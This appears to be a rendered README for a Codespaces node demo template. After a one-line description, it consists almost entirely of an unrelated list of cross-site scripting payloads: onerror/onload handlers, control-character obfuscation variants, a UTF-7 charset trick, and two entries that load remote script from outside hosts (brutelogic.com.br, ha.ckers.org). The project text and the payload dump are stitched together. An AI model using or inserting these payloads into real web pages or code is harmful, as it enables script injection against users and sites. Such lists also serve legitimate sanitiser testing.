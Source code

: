 
# Haikus for Codespaces

This is a quick node project template for demoing Codespaces. It is based off of the [Azure node sample](https://github.com/Azure-Samples/nodejs-docs-hello-world). It's great!!!


$$\&#x3c;&#x68;&#x31;&#x3e;$$

$$ <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-$$
$$ <OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>$$
$$"'`><\x00img src=xxx:x onerror=javascript:alert(1)>$$
$$"'`><\x3Cimg src=xxx:x onerror=javascript:alert(1)>$$
$$"'`><p><svg><script>a='hello\x27;javascript:alert(1)//';</script></p>$$
$$"'`>ABC<div style="font-family:'foo'\x3Bx:expression(javascript:alert(1);/*';">DEF $$
$$"'`>ABC<div style="font-family:'foo'\x7Dx:expression(javascript:alert(1);/*';">DEF $$
$$"-eval("window['pro'%2B'mpt'](8)")-"$$
$$"-prompt(8)-"$$
$$"/><img/onerror=\x09javascript:alert(1)\x09src=xxx:x />$$
$$"/><img/onerror=\x0Ajavascript:alert(1)\x0Asrc=xxx:x />$$
$$"/><img/onerror=\x0Bjavascript:alert(1)\x0Bsrc=xxx:x />$$
$$"/><img/onerror=\x0Cjavascript:alert(1)\x0Csrc=xxx:x />$$
$$"/><img/onerror=\x0Djavascript:alert(1)\x0Dsrc=xxx:x />$$
$$"/><img/onerror=\x20javascript:alert(1)\x20src=xxx:x />$$
$$"/><img/onerror=\x22javascript:alert(1)\x22src=xxx:x />$$
$$"/><img/onerror=\x27javascript:alert(1)\x27src=xxx:x />$$
$$"/><img/onerror=\x60javascript:alert(1)\x60src=xxx:x />$$
$$";a=prompt,a()//$$
$$"><iframe%20src="http://google.com"%%203E$$
$$"><img src=1 onerror=alert(1)>.gif$$
$$"><img src=x onerror=prompt(1);>$$
$$"><img src=x onerror=window.open('https://www.google.com/');>$$
$$"><link rel=import href=data:text/html&comma;&lt;script&gt;alert(1)&lt;&sol;script&gt;$$
$$"><script src=//brutelogic.com.br&sol;1.js&num; $$
$$"><script src=data:&comma;alert(1)//$$
$$"><svg onload=alert(1)//$$
$$"`'><script>-javascript:alert(1)</script>$$
$$"`'><script>-javascript:alert(518)</script>$$
$$"`'><script>\x00javascript:alert(1)</script>$$
$$"`'><script>\x00javascript:alert(511)</script>$$
$$"`'><script>\x09javascript:alert(1)</script>$$
$$"`'><script>\x09javascript:alert(507)</script>$$
$$"`'><script>\x0Ajavascript:alert(1)</script>$$
$$"`'><script>\x0Ajavascript:alert(519)</script>$$
$$"`'><script>\x0Bjavascript:alert(1)</script>$$
$$"`'><script>\x0Bjavascript:alert(535)</script>$$
$$"`'><script>\x0Cjavascript:alert(1)</script>$$
$$"`'><script>\x0Cjavascript:alert(515)</script>$$
$$"`'><script>\x0Djavascript:alert(1)</script>$$
$$"`'><script>\x20javascript:alert(1)</script>$$
$$"`'><script>\x20javascript:alert(536)</script>$$
$$"`'><script>\x21javascript:alert(1)</script>$$
$$"`'><script>\x2531javascript:alert(531)</script>$$
$$"`'><script>\x2Bjavascript:alert(1)</script>$$
$$"`'><script>\x2Bjavascript:alert(516)</script>$$
$$"`'><script>\x3Bjavascript:alert(1)</script>$$